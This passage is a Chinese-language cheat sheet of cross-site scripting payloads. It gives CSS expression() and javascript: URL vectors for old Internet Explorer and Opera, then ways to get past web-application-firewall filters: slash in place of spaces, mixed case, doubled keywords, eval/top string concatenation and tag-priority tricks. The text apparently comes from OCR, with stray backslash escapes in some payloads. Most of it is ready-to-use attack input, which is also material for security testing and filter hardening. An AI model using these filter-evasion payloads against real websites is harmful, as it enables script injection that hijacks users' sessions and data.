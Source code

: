 ##### 其它

expression 属性

    <img style="xss:expression(alert('xss''))"> // IE7以下
    <div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
    <style>#test{x:expression(alert(/XSS/))}</style> // IE7以下

background 属性

    <table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效

#### 有过滤的情况下

##### 过滤空格

用`/`代替空格

<img/src\="x"/onerror\=alert("xss");\>

#### 过滤关键字

##### 大小写绕过

<ImG sRc\=x onerRor\=alert("xss");\>

##### 双写关键字

有些 waf 可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

<imimgg srsrcc\=x onerror\=alert("xss");\>

##### 字符拼接

利用 eval

<img src\="x" onerror\="a=\`aler\`;b=\`t\`;c='(\`xss\`);';eval(a+b+c)"\>

利用 top

    <script>top["al"+"ert"](`xss`);</script>

##### 其它字符混淆

有的 waf 可能是用正则表达式去检测是否有 xss 攻击，如果我们能 fuzz 出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了  
下面举几个简单的例子

    可利用注释、标签的优先级等
    1.<<script>alert("xss");//<</script>
    2.<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
    3.<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>

##### 编码绕过

Unicode 编码绕过
